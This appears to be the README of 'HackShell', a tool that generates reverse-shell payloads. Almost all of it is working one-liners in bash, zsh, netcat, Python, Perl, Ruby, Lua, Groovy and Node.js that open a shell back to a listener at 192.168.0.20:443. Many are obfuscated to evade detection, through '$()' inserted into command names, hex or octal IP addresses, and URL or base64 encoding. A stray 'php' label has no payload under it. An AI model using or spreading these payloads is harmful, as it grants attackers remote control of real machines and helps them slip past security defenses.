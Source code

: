 # HackShell - Generator of some different reverse shells:
```
usage: python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type hex

.------..------..------..------..------..------..------..------..------.
|H.--. ||A.--. ||C.--. ||K.--. ||S.--. ||H.--. ||E.--. ||L.--. ||L.--. |
| :/\: || (\/) || :/\: || :/\: || :/\: || :/\: || (\/) || :/\: || :/\: |
| (__) || :\/: || :\/: || :\/: || :\/: || (__) || :\/: || (__) || (__) |
| '--'H|| '--'A|| '--'C|| '--'K|| '--'S|| '--'H|| '--'E|| '--'L|| '--'L|
`------'`------'`------'`------'`------'`------'`------'`------'`------'

optional arguments:
  -h, --help         show this help message and exit
  --payload PAYLOAD  bash,zsh,nc,php,python,perl,ruby,lua,groovy,nodejs,all
  --lhost LHOST      ip
  --lport LPORT      port
  --type TYPE        b64,urle,int,octa,hex,jlre,funf
```
#### e.g.
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type hex
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0xC0A80014",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type octa
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0300.0250.0000.0024",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type long
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3232235540",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type jlre
`
```
py%24%28%29thon%20%24%28%29c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.0.20%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type b64
`
```
cHkkKCl0aG9uIC0kKCljICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4wLjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```
`
python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre
`
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```

`
python hackshell.py --payload all --lhost 192.168.0.20 --lport 443
`

```
ba$()sh -$()i '/dev/tcp/192.168.0.20/443 0>&1'
```
```
zsh -c 'zmodload zsh/net/tcp && ztcp192.168.0.20443&& zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|n$()c 192.168.0.20 443 >/tmp/f
```
php
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.20",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
```
pe$()rl -$()e 'use Socket;$i="192.168.0.20";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```
ru$()by -rsocket -$()e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.0.20",443))'
```
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('"192.168.0.20"','443');os.execute('sh -i <&3 >&3 2>&3');"     
```
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.20/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
```
require('child_process').exec('nc -e sh 192.168.0.20 443')
```
